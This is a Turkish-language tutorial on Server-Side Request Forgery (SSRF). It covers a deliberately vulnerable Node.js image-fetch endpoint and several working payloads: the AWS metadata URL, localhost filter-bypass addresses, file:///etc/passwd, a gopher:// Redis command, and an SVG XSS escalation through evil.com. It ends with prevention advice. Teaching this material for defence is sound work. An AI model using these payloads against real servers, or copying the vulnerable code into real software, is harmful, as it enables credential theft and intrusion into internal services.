 # Server-Side Request Forgery
Bir web sunucusu, kullanıcı girdisine bağlı olarak uzak kaynakları getiriyorsa, saldırgan bu sunucuyu kendi belirlediği URL’lere istek göndermeye zorlayabilir. İlk bakışta bu çok kritik görünmese de, web uygulamasının yapılandırmasına bağlı olarak SSRF zafiyetleri çok ciddi sonuçlara yol açabilir. Ayrıca, eğer web uygulaması kullanıcıdan gelen URL şemasına veya protokolüne güveniyorsa, saldırgan URL şemasını manipüle ederek daha da istenmeyen davranışlara sebep olabilir. Örneğin, SSRF zafiyetlerinin istismarında yaygın olarak kullanılan URL şemalarından biri:
- gopher://: Belirtilen adrese rastgele byte’lar gönderebilir. Saldırgan bunu kullanarak keyfi HTTP POST istekleri gönderebilir veya SMTP sunucuları ya da veritabanları gibi diğer servislerle iletişim kurabilir.

Yaygın sömürü yolları:
- Cloud Meta Verilerine Erişim
- Sunucudaki dosyaları sızdırmak
- Ağ keşfi
- Ağdaki belirli hizmetlere paketler göndermek, genellikle başka bir sunucuda Uzaktan Komuta Yürütme elde etmek için

# SSRF Keşfi
Örnek: Bir sunucu bir URL almak için kullanıcı girişini kabul eder.
```js
const express = require('express');
const axios = require('axios');
const app = express();
const port = 3000;

app.get('/user/image', async function (req, res) {
  const imgUrl = req.body.imgUrl;
  const imageReq = await axios.get(imgUrl);
  user.updateProfileImage(imageReq.data);
  res.send(imageReq.data);
});

app.listen(port, () => {
  console.log(`Listening on http://localhost:${port}`);
});
```

saldırgan aşağıdaki gibi girdi sağlar:
```
http://169.254.169.254/latest/meta-data/
```

Bu, AWS EC2 meta veri hizmetinden hassas bilgileri alır.

# Filtreleri atlamak
```
http://localhost:80
http://localhost:22
https://localhost:443
http://127.0.0.1:80
http://127.0.0.1:22
https://127.0.0.1:443
http://0.0.0.0:80
http://0.0.0.0:22
https://0.0.0.0:443
http://[::]:80/
http://[0000::1]:80/
http://[0:0:0:0:0:ffff:127.0.0.1]
http://[::ffff:127.0.0.1]
http://127.127.127.127
http://127.0.1.3
http://127.0.0.0
http://0/
http://127.1
http://127.0.1
```

Prefix/Suffix tabanlı bypasslar ve URL manipülasyon teknikleri için:
- https://portswigger.net/web-security/ssrf/url-validation-bypass-cheat-sheet

# LFI ve SSRF
SSRF zafiyetlerinde, uygulamaya sağlanan URL’nin bir parçası yerel dosya sistemine erişim için kullanılabilir. Özellikle file:// şeması, web sunucusunun yerel dosyaları okumasına olanak sağlar.

Örnek olarak, sunucu imgUrl parametresini fetch etmek için kullanıyorsa, saldırgan aşağıdaki URL’yi sağlayabilir:
```
file:///etc/passwd
```

Bu, sunucudaki hassas dosyaların içeriğini döndürebilir ve uygulamanın normal işleyişi dışında information disclosure sağlar.

# Gopher Protokolü ve SSRF
Gopher, HTTP’ye benzer şekilde sunucular arasında veri iletimi için kullanılan eski bir protokoldür. SSRF zafiyetlerinde özellikle tehlikelidir, çünkü saldırganlar sadece GET/POST değil, keyfi protokoller ve ham paketler gönderebilir.

Neden tehlikeli:
- HTTP POST veya diğer protokolleri taklit edebilir.
- SMTP, Redis, gibi arka uç servisleri ile iletişim kurabilir.

## Örnek kullanım
Bir SSRF zafiyeti olan uygulama, kullanıcıdan aldığı URL’yi fetch ediyorsa, saldırgan şu URL’yi verebilir:
```
gopher://127.0.0.1:6379/_SET%20key%20123
```
Bu örnekte:
- 127.0.0.1:6379 → Redis sunucusu
- _SET key 123 → Redis komutu, Gopher protokolü üzerinden gönderiliyor

Sunucu bu isteği gönderebilir ve internal servislere komut çalıştırabilir.

Aşağıdaki hizmetler gopher tarafındandesteklenir:
- MySQL
- PostgreSQL
- FastCGI
- Redis
- SMTP
- Zabbix
- pymemcache
- rbmemcache
- phpmemcache
- dmpmemcache

Aşağıdaki tool gopher ile exploiti kolaylaştırabilir.
- https://github.com/tarunkant/Gopherus

# XSS'e yükseltme
Javascript kodu içeren bir SVG dosyası dahil ederek SSRF'yi bir XSS'ye yükseltmeyi deneyebilirsiniz.
```
https://example.com/ssrf.php?url=http://evil.com/poc.svg
```

# SSRF Önleme ve Kapatma Yöntemleri
SSRF zafiyetlerini tamamen önlemek için uygulama seviyesinde birden fazla önlem bir arada uygulanmalıdır:
1. Kullanıcı Girdilerini Doğrulama
- Kullanıcıdan gelen URL’leri veya hostname’leri mutlaka whitelist ile kontrol edin.
- Sadece izin verilen domain veya IP’lere erişime izin verin.

2. URL Şemalarını Kısıtlama
- Sadece HTTP ve HTTPS gibi güvenli protokolleri kabul edin. 
- file://, gopher://, ftp:// gibi potansiyel tehlikeli protokolleri reddedin.

3. Dahili Kaynaklara Erişimi Kısıtlama
- Sunucunun internal network’e veya metadata servislerine doğrudan erişimi mümkün olduğunca kısıtlayın.
- Cloud ortamlarında meta-data servisini sadece gerekli servislerin kullanabileceği şekilde yapılandırın.